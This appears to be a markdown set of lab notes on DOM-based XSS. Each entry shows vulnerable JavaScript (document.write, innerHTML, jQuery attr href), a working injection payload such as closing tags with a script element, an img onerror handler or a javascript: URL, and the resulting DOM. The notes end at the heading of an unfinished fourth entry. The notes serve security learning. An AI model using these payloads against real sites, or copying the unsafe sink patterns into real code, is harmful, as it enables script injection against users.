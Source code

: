 ### DOM XSS in document.write sink using source location.search inside a select element
Context:
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
...
document.write('</select>');
```
Exploit:
```
storeId=</option></select><script>alert(1)</script>
```
Result:
```html
<select name="storeId">
    <option selected></option>
</select>
<script>alert(1)</script>

</option>
</select>
```

### DOM XSS in innerHTML sink using source location.search
Context:
```html
<h1><span>0 search results for '</span><span id="searchMessage"></span><span>'</span></h1>
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```
Exploit:
```
<img src=0 onerror="alert(1)">
```
Result:
```html
<span id="searchMessage"><img src=0 onerror="alert(1)"></span>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
Context:
```js
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```
Exploit:
```
returnPath=javascript:alert(1)
```
### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded